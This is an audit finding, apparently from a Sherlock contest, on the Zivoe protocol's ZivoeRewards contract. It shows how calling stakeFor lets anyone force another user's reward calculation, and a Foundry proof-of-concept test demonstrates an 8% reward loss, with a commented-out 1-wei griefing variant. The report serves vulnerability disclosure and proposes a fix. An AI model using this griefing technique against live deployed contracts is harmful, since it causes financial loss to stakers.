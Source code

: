 Jumpy Yellow Kitten

medium

# stakeFor allows anyone to force reward calculations for anyone, which can cause a loss of rewards.

## Summary

Through `stakeFor(amount, address)`, anyone can force the reward calculations for the stake of any user. This is a problem since the timing of calculation influences the amount of rewards received. 

## Vulnerability Detail

The amount of rewards a staker receives are calculated by dividing the `rewardRate` by the `_totalSupply`, which gives a rewardPerToken to be multiplied by the balance of the user. 

As such, the timing of calling `earned` becomes very important. When an early investor decide to stake a massive amount, the difference in rewards between calling `earned` before the stake or after can be up to 10%. Such a critical action should only be done by the owner of the stake. 

Yet, the `stakeFor(amount,address)` function has the `updateReward(account)` modifier, which means anyone calling this function forces the reward calculation for the owner of the stake. 

This can cause a loss in an accidental or malicious manner: 

- If Alice calls  `stakeFor(10 ether, Sam)` in good faith but at a bad time, Sam can suffer a definite loss in rewards even though his stake increased. 
- If Bob calls  `stakeFor(1 wei, Sam)` in bad faith at a bad time, Sam will suffer a definite loss in rewards. 

The POC below illustrates this scenario. 

Import the console library, update the setUp function with the code provided and place the below test in zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol.
Run with forge test --rpc-url MainNetAPI --match-test test_LossRewards_ForceRewardCalculations -vv

>[PASS] test_LossRewards_ForceRewardCalculations() (gas: 635022)
>   Logs:
>      Original amount of rewards that being distributed over the duration of 30 days: 99
>      The Total DAI that sam received as rewards at day 30: 91
>      Percentage loss: 8%

```solidity

import "../../lib/forge-std/src/console.sol";

    function setUp() public {

        deployCore(false);

        // Simulate ITO (10mm * 8 * 4), DAI/FRAX/USDC/USDT.
        simulateITO(10_000_000 ether, 10_000_000 ether, 10_000_000 * USD, 10_000_000 * USD);

        claimITO_and_approveTokens_and_stakeTokens(false);

        // Create an OCG locker which moves ZVE from DAO -> OCG ... allows another account to claim.
        // We need ZVE accessible by someone to test the ZivoeRewards functionality contract (generic $ZVE staking contract).
        ZVEClaimer = new OCG_ERC20_FreeClaim(address(DAO));
        assert(zvl.try_updateIsLocker(address(GBL), address(ZVEClaimer), true));
        assert(god.try_push(address(DAO), address(ZVEClaimer), address(ZVE), 20000 ether, ""));
        ZVEClaimer.forward(address(ZVE), 5000 ether, address(sam));
        ZVEClaimer.forward(address(ZVE), 5000 ether, address(sue));
        ZVEClaimer.forward(address(ZVE), 5000 ether, address(bob));
        ZVEClaimer.forward(address(ZVE), 5000 ether, address(jen));
    }


    function test_LossRewards_ForceRewardCalculations() public {
        uint256 deposit = 100 ether;

        assert(sam.try_approveToken(address(ZVE), address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam))));
        sam.try_stake(address(stZVE), IERC20(address(ZVE)).balanceOf(address(sam)));

        // Protocol deposits 100 ether rewards, 30 days rewardduration.
        depositReward_DAI(address(stZVE), deposit);
        uint256 originalRewards= stZVE.getRewardForDuration(DAI)/1e18;
        console.log("Original amount of rewards that being distributed over the duration of 30 days: %s", originalRewards );


        hevm.warp(block.timestamp + 15 days);

        //jen the early investor decides to stake everything she has and causes a 20% shift in totalSupply
        jen.try_approveToken(address(ZVE), address(stZVE), 1000 ether);
        jen.try_stake(address(stZVE),1000 ether);

        // sue the nice girl no longer wants her 10 ZVE and decides to stake them for sam
        sue.try_approveToken(address(ZVE),address(stZVE), 10 ether);
        sue.try_stakeFor(address(stZVE), 10 ether, address(sam));

       // the effect for a malicious version are identical, the only difference is the reduction of stake to 1 wei
        /* 
        bob doesn't like sam so he happily causes a loss for sam at the cost of 1 wei
        bob.try_approveToken(address(ZVE),address(stZVE), 1);
        bob.try_stakeFor(address(stZVE), 1, address(sam));
        */

        hevm.warp(block.timestamp + 15 days);
        hevm.startPrank(address(sam));
        stZVE.getRewards();
        uint256 actualRewards = IERC20(address(DAI)).balanceOf(address(sam))/1e18;
        console.log("The Total DAI that sam received as rewards at day 30: %s",actualRewards );
        console.log("Percentage loss: %s%", originalRewards - actualRewards );
        hevm.stopPrank();

    }
```

## Impact

I believe this meets the criteria for a Medium for the following reasons:

- There is a definite loss of funds, with the constraining condition of a large move in token supply.
- Harming any user is extremely simple and costs as little as 1 wei.
- Even actions in good faith can cause a loss. 


## Code Snippet

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L121-L134

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L264-L278

## Tool used

Manual Review + Foundry

## Recommendation

Remove the updateReward modifier from the stakeFor function.